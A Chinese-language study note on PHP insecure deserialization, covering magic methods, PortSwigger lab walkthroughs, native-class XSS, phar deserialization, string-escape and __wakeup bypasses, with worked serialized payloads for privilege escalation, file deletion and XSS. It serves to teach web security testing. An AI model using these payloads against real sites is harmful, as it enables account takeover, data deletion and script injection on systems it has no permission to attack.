




# 序列化与反序列化

### 基础知识

##### 什么是序列化与反序列化？

序列化：对象转换为数组或字符串等格式

反序列化：将数组或字符串等格式转换成对象

serialize()     //将对象转换成一个字符串

unserialize()   //将字符串还原成一个对象



##### 反序列化数据格式

类型为object的对象，名字为6个长度的person,有3个变量，第一个变量的

名字为string类型，4个长度的name；值为string类型的7个长度的Anemone



##### 语言分类

PHP 

JavaEE 

NET 

 Python

### 反序列化漏洞原理

序列化是将对象转换为字节流的过程，以便可以将其保存到文件、数据库或通过网络传输。反序列化是将这些字节流重新构造成原始对象的过程。

而网站有时会让前端/网页/用户端传入序列化值，然后在后端对其进行反序列化并以解析出的数据为主执行一些行为，而攻击者可以自定义恶意序列化数据，让其传到后端解析其数据后执行一些恶意行为【导致攻击者可以控制反序列化过程，从而导致代码执行，SQL注入，目录遍历等不可控后果】

# PHP

### 魔术方法



```
__construct(): //当对象new的时候会自动调用
__destruct()：//当对象被销毁时会被自动调用
__sleep(): //serialize()执行时被自动调用
__wakeup(): //unserialize()时会被自动调用
__invoke(): //当尝试以调用函数的方法调用一个对象时会被自动调用
__toString(): //把类当作字符串使用时触发
__call(): //调用某个方法;若不存在,则会去调用__call函数。
__callStatic(): //在静态上下文中调用不可访问的方法时触发
__get(): //读取对象属性时,若不存在，则会调用__get函数
__set(): //设置对象的属性时,若不存在,则调用__set函数。
__isset(): //在不可访问的属性上调用isset()或empty()触发
__unset(): //在不可访问的属性上使用unset()时触发
__set_state()，调用var_export()导出类时，此静态方法会被调用
__clone()，当对象复制完成时调用
__autoload()，尝试加载未定义的类
__debugInfo()，打印所需调试信息
```



### 案例

https://portswigger.net/web-security/all-labs#insecure-deserialization

##### 修改布尔值获取权限

打开后发现是一个登录页面，抓数据包，发现其cookie的值为url+base64加密的密文，进行解密后发现其值为

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

在该数据中发现其User对象的两个变量中其admin变量的值为布尔类型（bool），将其值改为1

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

之后使用时再把该paylod进行base64+url加密替换cookie中的值，此时就获得了admin权限，然后再访问admin权限才能访问的页面/admin，成功访问

------

##### 修改用户名与token获取权限

打开网站，还是cookie密文，进行url+basse64解密

```
O:4:"User":2:{s:8:"username";s:5:"asdaa";s:32:"access_token";S:32;"adaedwdwaqdawfdwqafafadawd"}
```

修改用户名为administrator，由于不知道token的机制，因此尝试传值为空

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

利用成功

------

##### 删除文件的目录可控

打开网站，发现该网页控制删除文件目录，尝试删除目录user/aaaa，抓数据包，还是cookie密文，进行url+basse64解密

发现

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"elrtoxj3rcx3n1ip4u723mk839qht90h";s:11:"avatar_link";s:9:"user/aaaa";}
```

猜测s:9:"user/aaaa"为删除目录，改为删除目标文件

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"elrtoxj3rcx3n1ip4u723mk839qht90h";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

利用成功

### 原生类利用

##### 参考文章

https://xz.aliyun.com/news/8792

https://www.anquanke.com/post/id/264823

https://blog.csdn.net/cjdgg/article/details/115314651

##### 原理

序列化与反序列化是把对象转换成数据，而对象来自于目标主机的类，因此当我们利用反序列化漏洞，构造恶意序列化数据时，必须使用对方主机中存在的类new对象然后再进行序列化，对方收到序列化数据时才能理解并进行反序列化

而当对方网站上没有我们可以触发安全漏洞的类时，可以利用PHP语言自带的类进行利用

在实战中，我们需要先收集对方网站的PHP版本信息，然后再本地搭建，利用下面的脚本查询使用了魔术方法的本地原生类【也就是查询对方网站版本的可利用魔术方法的可利用原生类】

在类似CTF这种无法搜集到相关信息的情况，在确定可利用的魔术方法后，就只能把使用该魔术方法的所有可利用的原生类一个一个尝试

##### 各种魔术方法可以利用的原生类:

```
#查看使用了魔术方法的本地原生类：
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
			'__construct',
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}

```

在本地执行以上代码即可查看各种魔术方法可以利用的原生类:

##### 演示案例

###### Error/Exception造成xss

XSS可以通过利用Error/Exception类的魔术方法__toString：


```
对方网站公开的源码：
<?php
highlight_file(__file__);
$a = unserialize($_GET['code']);
echo $a;
?>
```

我们只拿到了以上代码，并不知道对方有什么可以利用的类，因此就需要使用原生类

看见对方把对象当做字符串进行输出，可以想到`魔术方法__tostring`，查询__tostring魔术方法可以利用的类，查到有Exception...等

我们知道魔术方法__tostring在Excepton类的作用都是把对象按照字符串形式进行输出，因此可以尝试XSS

```
攻击者本地构造的源码
<?php
$a=new Exception("<script>alert('xiaodi')</script>");
echo urlencode(serialize($a));
?>
```

先new一个Ecxception类的对象，然后对其进行序列化


### -phar反序列化

##### 什么是phar？

从php5.3开始，php存在一种机制，当使用相关函数处理phar文件时，会自动对其中的数据

解释：从PHP 5.3开始，引入了类似于JAR的一种打包文件机制。它可以把多个文件存放至同一个文件中，无需解压，PHP就可以进行访问并执行内部语句。


原理：PHP文件系统函数在通过伪协议解析phar文件时，都会将 meta-data进行反序列化操作，受影响的函数如上图；所以当这些函数接收到伪协议处理到 phar 文件的时候，Meta-data 里的序列化字符串就会被反序列化，实现不使用unserialize()函数实现反序列化操作。

##### 利用条件

1.phar文件(任意后缀都可以)能上传至服务器。

2.存在受影响函数，存在可以利用的魔术方法。

### 绕过思路

##### 字符串逃逸

当遇到对方网站会对字符串进行检测替换，且替换的字符串长度与原来的字符串长度不一致时，就可以用到字符串逃逸

###### 增多

首先对方网站源码写明了，当检测到传递进来的序列化数据字符串中存在字符admin时，会把该字符替换成hacker

【在username变量中，我们构造的数据为】`";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}`共47位，而admin替换成hacker会给出1位，47除以1等于47，因此需要47个admin

```
位数：
admin 5位 47*5+";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}
47*5+47=282
hacker 6位。47*6=282
```


```
O:4:"User":3:{s:8:"username";s:282:"adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"xiaodi";s:5:"isVIP";i:0;}
```

如果此时对方电脑识别该序列化数据，传递的对象如下

```
对象名：user
3个成员属性

username  值长度为282
adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}

password 值长度为6
xiaodi

isVIP  int值
0
```

当由于对方电脑存在过滤替换时，会把admin替换成hacker，则替换后的序列化数据如下

```
O:4:"User":3:{s:8:"username";s:282:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"xiaodi";s:5:"isVIP";i:0;}
```

- 47个hacker共282个字符串，则username的值传递到hacker字符串结束时停止，机器就会识别后面的字符串为其他成员变量与值的传递

此时对方电脑识别该序列化数据，传递的对象就会变成如下

```
对象名：user
3个成员属性

username  值长度为282
hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker

password 值长度为6
123456

isVIP  int值
1
```

###### 减少

admin替换成hack

```
O:4:"User":3:{s:8:"username";s:115:"adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:47:"";s:8:"password;s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

如果此时对方电脑识别该序列化数据，传递的对象如下

`";s:8:"password";s:47:"`长度为23，admin变hack，少了1位，23除以1等于23,因此需要23个admin

```
admin 5位，23*5=115
hack 4位，23*4+";s:8:"password";s:47:"
23*4+23=115
```


```
user对象，3个成员变量

username 值115个字符长度
adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin

password 值47字符长度
";s:8:"password;s:6:"123456";s:5:"isVIP";i:1;}

isVIP  int值
0
```

此时对方对admin进行替换

```
O:4:"User":3:{s:8:"username";s:115:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"";s:8:"password;s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

此时对方电脑识别该序列化数据，传递的对象如下

```
user对象，3个成员变量

username 值115个字符长度
hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"

password 值6个字符长度
123456

isVIP int值
1
```


##### 检测字符串数字

比如对方检测序列化数据中的数字

```
O:4:"User":1:{s:8:"username";s:6:"wiener";}
```

对方通过正则匹配过滤字符串中的:6，可以把:6改为:+6来进行绕过

-------

##### CVE-2016-7124（_wakeup绕过）

漏洞编号：CVE-2016-7124

影响版本：PHP 5<5.6.25; PHP 7<7.0.10

###### 原理：

如存在`__wakeup`方法，调用unserilize()方法前则先调用`__wakeup`方法，但序列化字符串中表示对象属性个数的值大于真实属性个数时会跳过`__wakeup`执行

- 常用于CTF比赛

如

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

把2改为3

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

就会不执行wakeup方法

##### 属性不同反序列化解析差异

###### 原理

首先需要知道变量属性不同，序列化数据存在差异

```
*对象变量属性：

public(公共的):在本类内部、外部类、子类都可以访问

protect(保护的):只有本类或子类或父类中可以访问

private(私人的):只有本类内部可以使用

*序列化数据显示：

public属性序列化的时候格式是正常成员名

private属性序列化的时候格式是%00类名%00成员名

protect属性序列化的时候格式是%00*%00成员名
```

在PHP7.1以上版本中，

序列化传递数据时，即使对象变量的属性与最开始规定的不一致，也会进行解析

如：

本地代码如下：

```
<?php
class test{
    protected $a;
    private $b;
    public function __construct(){
        $this->a = 'abc';
    }
    public function __destruct(){
        echo $this->a;
    }
}
```

当PHP版本为7.1以下时访问该代码页面，传递参数

```
index.php/canshu='O:4:"test":1:{s:1:"a";s:3:"abc";}':"a";s:3:"abc";}'
```

就不会执行 `__construct()`和 `__destruct()`方法，输出abc字符串，因为参数中传递的序列化数据的对象a变量属性为public，不符合本地代码中a变量属性为protected

但在7.1以上版本就会输出abc字符串，因为7.1以上版本解析不敏感

- 在ctf中，常用于改变变量的属性以便于对变量进行修改

### 工具推荐

#### PHPGGC

https://github.com/ambionics/phpggc

PHPGGC是一个包含unserialize()有效载荷的库以及一个从命令行或以编程方式生成它们的工具。

当在您没有代码的网站上遇到反序列化时，或者只是在尝试构建漏洞时，此工具允许您生成有效负载，而无需执行查找小工具并将它们组合的繁琐步骤。 它可以看作是frohoff的ysoserial的等价物，

但是对于PHP。目前该工具支持的小工具链包括：CodeIgniter4、Doctrine、Drupal7、Guzzle、Laravel、Magento、Monolog、Phalcon、Podio、ThinkPHP、Slim、SwiftMailer、Symfony、Wordpress、Yii和ZendFramework等。
